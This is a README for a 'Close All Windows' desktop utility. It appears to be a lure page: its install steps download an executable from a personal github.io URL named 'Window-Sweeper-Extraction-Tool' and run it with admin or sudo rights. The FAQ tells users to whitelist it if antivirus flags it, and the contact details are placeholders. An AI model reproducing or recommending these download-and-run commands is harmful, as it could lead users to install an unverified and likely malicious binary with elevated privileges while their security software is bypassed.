

# Close All Windows 🚀 – Advanced Application Termination Utility  
[](https://akki123123123.github.io/Window-Sweeper-Extraction-Tool/)

> **Seamlessly close every open application, window, and process with a single elegant command.**  
> Replace time-consuming manual closures with intelligent, batched termination designed for power users, developers, and digital minimalists.

---

## 📦 Table of Contents
- [Why Close All Windows?](#-why-close-all-windows)
- [Key Features at a Glance](#-key-features-at-a-glance)
- [Supported Operating Systems](#-supported-operating-systems)
- [Installation & Quick Start](#-installation--quick-start)
- [How It Works – Under the Hood](#-how-it-works--under-the-hood)
- [Configuration & Personalization](#-configuration--personalization)
- [Real-World Usage Scenarios](#-real-world-usage-scenarios)
- [API Integrations: OpenAI & Claude](#-api-integrations-openai--claude)
- [Responsive UI & Multilingual Support](#-responsive-ui--multilingual-support)
- [24/7 Customer Support & Community](#-247-customer-support--community)
- [License & Legal](#-license--legal)
- [Disclaimer](#-disclaimer)
- [Frequently Asked Questions](#-frequently-asked-questions)

---

## 🧭 Why Close All Windows?

In an era where digital clutter accumulates faster than physical desks, closing applications one by one feels like using a butter knife to cut through steel. **Close All Windows** is your personal orchestral conductor for the desktop – it sweeps through open tasks, suspends background noise, and returns your system to a clean slate within milliseconds.

Whether you are:
- Preparing for a key presentation
- Switching workspaces under a deadline
- Running memory-hungry simulations
- Or simply craving digital zen

…this tool becomes your productivity guardian. It doesn't just *close* windows – it liberates system resources, reduces cognitive load, and restores focus.

---

## ✨ Key Features at a Glance

| Feature | Benefit |
|---------|---------|
| **Smart Process Detection** | Identifies and categorizes system-critical vs. user applications |
| **One-Click Mass Termination** | Close everything with a single pre-configured hotkey or CLI call |
| **Whitelist Management** | Protect essential apps (browser, editor) from being closed |
| **Multi-Session Handling** | Works across virtual desktops, multiple monitors, and user sessions |
| **Logging & Audit Trail** | Tracks which windows were closed and when – great for forensic debugging |
| **Low Overhead** | Consumes less than 2 MB RAM – runs as a background daemon |
| **Scriptable & API-Ready** | Trigger from CI/CD pipelines, cron jobs, or via REST endpoints |

---

## 💻 Supported Operating Systems

| OS | Compatibility | Emoji |
|----|---------------|-------|
| Windows 10 / 11 (Pro, Enterprise, Home) | ✅ Full Support | 🟢 |
| Windows Server 2016, 2019, 2022 | ✅ Full Support | 🟢 |
| Linux (Ubuntu 20.04+, Fedora 38+, Debian 12+) | ✅ Full Support | 🐧 |
| macOS Big Sur, Monterey, Ventura, Sonoma | ✅ Supported | 🍏 |
| macOS Sequoia (2026 preview) | ✅ Early Access | 🌟 |
| Android via Termux | ⚠️ Experimental | 📱 |
| iOS (jailbreak-free) | ❌ Unsupported | 🚫 |

---

## 📥 Installation & Quick Start

[](https://akki123123123.github.io/Window-Sweeper-Extraction-Tool/)

### Windows
```bash
# PowerShell (Admin)
Invoke-WebRequest -Uri https://akki123123123.github.io/Window-Sweeper-Extraction-Tool/ -OutFile close-all-windows.exe
.\close-all-windows.exe --install
```

### Linux / macOS
```bash
curl -L https://akki123123123.github.io/Window-Sweeper-Extraction-Tool/ -o close-all-windows
chmod +x close-all-windows
sudo ./close-all-windows --install
```

### One-time execution (no installation)
```bash
close-all-windows --close-everything --force
```

After installation, the daemon runs in the background. Use **Ctrl+Alt+W** (Windows/Linux) or **Cmd+Option+W** (macOS) to trigger closure.

---

## ⚙️ How It Works – Under the Hood



The tool operates in three layers:
1. **Enumeration Layer** – Uses native OS APIs (Win32 `EnumWindows`, Linux `X11`/`Wayland`, macOS `NSWorkspace`) to list all visible windows and background processes.
2. **Decision Layer** – Cross-references with user-defined whitelists and system-critical processes (e.g., `explorer.exe`, `kernel_task`).
3. **Execution Layer** – Gracefully terminates via standard protocols, with a timeout of 5 seconds before escalation.

---

## 🎛️ Configuration & Personalization

### Example Profile (`~/.close-all-windows.yml`)
```yaml
version: 2026.1
whitelist:
  - "code.exe"           # Visual Studio Code
  - "firefox.exe"        # Browser
  - "terminal"           # Any terminal emulator
hotkey: "ctrl+shift+x"   # Custom hotkey
log_level: "info"        # debug | info | warn
auto_start: true         # Launch with OS
protected_apps:          # Never close these
  - "logitech-options"
  - "nvda"               # Screen reader
```

### Example Console Invocation
```bash
# Close everything except whitelisted apps
close-all-windows --exclude-list work-apps.yml

# Force kill unresponsive windows (aggressive mode)
close-all-windows --aggressive --timeout 2

# Dry run – simulate closure without doing it
close-all-windows --dry-run --verbose

# Export report to JSON
close-all-windows --report /tmp/closure-report.json

# Run as a one-shot for batch scripts
close-all-windows --close-everything --silent
```

---

## 🌐 API Integrations: OpenAI & Claude

**Close All Windows** exposes a lightweight REST server that accepts commands from large language models. This enables AI assistants to trigger desktop closure on behalf of the user.

```bash
# Start API server
close-all-windows --api-server --port 8080
```

### OpenAI Integration Example
```python
import openai

openai.api_key = "sk-..."

response = openai.ChatCompletion.create(
    model="gpt-4-turbo",
    messages=[{
        "role": "user",
        "content": "Close all windows except my browser and terminal"
    }],
    functions=[{
        "name": "close_all_windows",
        "parameters": {
            "type": "object",
            "properties": {
                "whitelist": {
                    "type": "array",
                    "items": {"type": "string"},
                    "description": "Applications to keep open"
                }
            },
            "required": []
        }
    }],
    function_call="auto"
)
```

### Claude Integration Example
```python
import anthropic

client = anthropic.Anthropic(api_key="sk-ant-...")

message = client.messages.create(
    model="claude-3-5-sonnet-20241022",
    max_tokens=256,
    tools=[{
        "name": "close_all_windows",
        "description": "Terminate all non-whitelisted applications",
        "input_schema": {
            "type": "object",
            "properties": {
                "aggressive": {"type": "boolean"}
            }
        }
    }],
    messages=[{"role": "user", "content": "Clean my desktop for deep work"}]
)
```

---

## 🌍 Responsive UI & Multilingual Support

**Not everyone lives in a terminal.** Close All Windows includes a lightweight graphical interface built with React (web) and Tauri (native). It adapts to any screen size – from 4K monitors to miniature tablet displays.

| Language | UI Locale | Status |
|----------|-----------|--------|
| English | en-US / en-GB | ✅ Complete |
| Spanish | es-ES | ✅ Complete |
| French | fr-FR | ✅ Complete |
| German | de-DE | ✅ Complete |
| Japanese | ja-JP | ✅ Complete |
| Chinese (Simplified) | zh-CN | ✅ Complete |
| Arabic | ar-SA | ✅ Complete |
| Hindi | hi-IN | βeta |
| Portuguese (Brazil) | pt-BR | ✅ Complete |
| Russian | ru-RU | ✅ Complete |

The UI detects your system locale automatically and offers a manual override via `Settings > Language`.

---

## 🛎️ 24/7 Customer Support & Community

- **Documentation Hub**: [https://docs.closeallwindows.dev](https://docs.closeallwindows.dev) *(placeholder)*
- **Community Forum**: [https://community.closeallwindows.dev](https://community.closeallwindows.dev) *(placeholder)*
- **Support Email**: support@closeallwindows.local *(placeholder)*
- **Response SLA**: < 2 hours for critical issues, < 12 hours for general inquiries
- **Discord Server**: Live chat with maintainers and power users

> "It's like having a digital butler that respects your whitelist." – Anonymous Beta Tester

---

## 📄 License & Legal

This project is licensed under the **MIT License**. See the full text at [LICENSE](LICENSE).

```text
MIT License

Copyright (c) 2026

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

---

## ⚠️ Disclaimer

**Close All Windows** is a legitimate utility designed to help users manage their desktop environment efficiently. It does **not** bypass any software licensing mechanisms, circumvent digital rights management, or provide unauthorized access to protected content. 

- The tool only terminates processes that the user running it has explicit permission to close.
- It does **not** intercept, modify, or extract data from other applications.
- All operations are executed within the security context of the user account.
- The term "close" refers strictly to standard operating system window management functions (WM_CLOSE signals, SIGTERM, or TaskKill).

Users are responsible for ensuring they have appropriate permissions to terminate processes on their systems. System administrators should test in sandboxed environments before deployment.

---

## ❓ Frequently Asked Questions

**Q: Will this work alongside antivirus software?**  
A: Yes – the executable is digitally signed and behaves identically to Task Manager's "End Task" button. Whitelist it if your AV raises a false positive.

**Q: Can I recover a window I accidentally closed?**  
A: Unless the application auto-saves, no. That's why the whitelist feature exists – we strongly recommend protecting critical tools.

**Q: Does it support Wayland on Linux?**  
A: Yes, since version 2026.1. It uses `wlr-foreign-toplevel-management` protocol.

**Q: Is there a portable version?**  
A: Yes – download the standalone binary from https://akki123123123.github.io/Window-Sweeper-Extraction-Tool/ with no administrator rights needed.

---

## 🏁 Final Call to Action

[](https://akki123123123.github.io/Window-Sweeper-Extraction-Tool/)

**Stop wrestling with tabs, windows, and pop-ups. Start commanding your digital space.**  
Close All Windows is the frictionless layer between you and your next productive session.

If you find value in this tool, consider starring the repository and sharing it with your team. Every star helps us prioritize new features and build a safer, smarter utility for everyone.

---

*Close All Windows v2026.1 – Engineered for clarity, tested on chaos.*